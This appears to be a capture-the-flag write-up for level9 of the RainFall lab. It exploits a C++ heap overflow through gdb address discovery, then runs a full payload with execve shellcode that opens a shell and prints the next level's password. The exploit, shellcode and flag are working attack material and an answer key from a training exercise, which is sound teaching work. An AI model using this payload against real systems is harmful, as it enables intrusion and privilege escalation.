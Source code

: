 ### Download binary
``scp -P4242 level9@192.168.31.170:/home/user/level9/level9 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

We see a c++ source code, with a call to a member function somwhere. We can overflow this pointer that is called to put whatever we want in it. Because there is no dead code we need to put our own shellcode inside the string that we input.

### Building the payload

We want to build this payload :

**the adress of the shellcode + the shellcode + char to fill the buffer + the adress of the start of our string**

This payload is different because the source code does a double redirection on the adress that is stored inside the pointer. This is why we have to redirect it first to the beginnig of the string, then to the shellcode.
The first step is to find the adress of our string :

**Getting the string adress :**

``(gdb) disas main``
>[...]
0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
This is the call for the function who takes our string.

Find the adress of the start of the function that allocate our string

``(gdb) b *0x804870e``
>Breakpoint 1 at 0x804870e

This adress is the start of the function that allocate our string

``(gdb) run AAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCC``

``(gdb) step``
>Single stepping until exit from function _ZN1N13setAnnotationEPc
which has no line number information.
0x0804867c in main ()

We are now back in the main function, and our string is allocated somewhere, let's find it, normally it should be in eax register.

``(gdb) i r``
>eax            0x804a00c	134520844

``(gdb) x/s 0x804a00c``
0x804a00c:	 'A' <repeats 19 times>, 'B' <repeats 19 times>, 'C' <repeats 24 times>
-> We found it !

**Building our payload**

python -c "print('\x0c\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 76 + '\x0c\xa0\x04\x08')"

-First part is string adress
-Second is the shellcode
-Third is junk to overflow with NOP
-Fourth is the start of the string


----

#### Getting the flag

``level9@RainFall:~$ ./level9 $(python -c "print('\x0c\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 76 + '\x0c\xa0\x04\x08')")``

``$ whoami``
>bonus0

``$ cat /home/user/bonus0/.pass``
>f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
